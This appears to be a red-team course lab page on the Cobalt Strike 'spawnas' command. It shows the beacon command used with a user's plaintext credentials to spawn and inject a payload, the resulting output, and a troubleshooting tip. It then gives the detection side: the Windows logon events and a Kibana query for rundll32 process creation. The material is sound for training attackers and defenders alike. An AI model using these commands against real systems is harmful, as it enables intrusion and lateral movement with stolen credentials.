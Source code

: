 The `spawnas` command will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it. This creates a new logon session with the interactive logon type which makes it good for local actions, but also creates a whole user profile on disk if not already present.
```shell
beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

>A common mistake is to attempt this from a directory where the target user does not have read access.
>```shell
>beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local [-] could not run C:\Windows\system32\rundll32.exe as DEV\jking: 267 [-] Could not connect to target
>```
>`cd` to a another directory like `C:\` and try again.

This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.

Like `make_token`, this will generate Windows event `4624: An account was successfully logged on` but with a logon type of `2` (LOGON32_LOGON_INTERACTIVE).  It will detail the calling user (TargetUserName) and the impersonated user (TargetOutboundUserName).

It will also generate Sysmon event 1 (Process Create).  Because Cobalt Strike spawns rundll32 by default, we can find it by filtering on the process image.
```shell
event.type: process_start and process.name: rundll32.exe
```

>Use `spawnas` to spawn a payload as a different user and find the evidence in Kibana.


